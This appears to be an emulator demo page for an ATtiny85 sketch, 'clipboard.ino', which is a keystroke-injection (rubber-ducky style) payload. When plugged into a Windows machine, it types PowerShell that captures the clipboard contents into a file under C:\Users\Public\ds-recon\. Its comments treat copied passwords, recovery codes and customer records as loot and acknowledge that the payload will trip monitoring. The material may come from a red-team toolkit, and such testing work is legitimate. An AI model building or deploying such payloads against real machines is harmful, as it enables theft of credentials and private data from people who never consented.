
This sketch was run on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Shown: output pins drawn as LEDs (lit = HIGH). Inputs (shaded band) come from the test bench; at power-on: PB2 HIGH.

Above: at 0.1 s.
At 12.6 s:

Timing chart, 0 to 14.1 s (numbered marks = the images above):


The sketch:

clipboard.ino
```cpp
// recon/clipboard - Tier 2
//
// Whatever is currently on the clipboard.
//
// Someone copying a password, a recovery code or a customer record into
// an open chat box has just handed you a credential. That is not a bug in
// your payload, it is the finding.
// Expect this to trip clipboard-access monitoring; it is the only
// collector here that reads data rather than system state.
//
// Read-only, no persistence, nothing left behind except the text file named in
// R_OUT. Output lands in C:\Users\Public\ds-recon\ on the target.

#include <duck.h>

// PROGMEM: this string must live in flash, not SRAM. The ATtiny85 has 512
// bytes of RAM and this script is far larger than that.
static const char S[] PROGMEM =
    R_MKDIR
    "Add-Type -AssemblyName System.Windows.Forms"
    "try{[Windows.Forms.Clipboard]::GetText()|Out-String -Width 250}catch{'CLIPBOARD LOCKED BY ANOTHER PROCESS'}"
    R_OUT("clipboard.txt")
    R_SHOW("clipboard.txt");

void setup() {
  duckBegin();
  ledPulse(2, 120, 120);
  recon(S);
  ledPulse(4, 150, 150);
}

void loop() {}
```
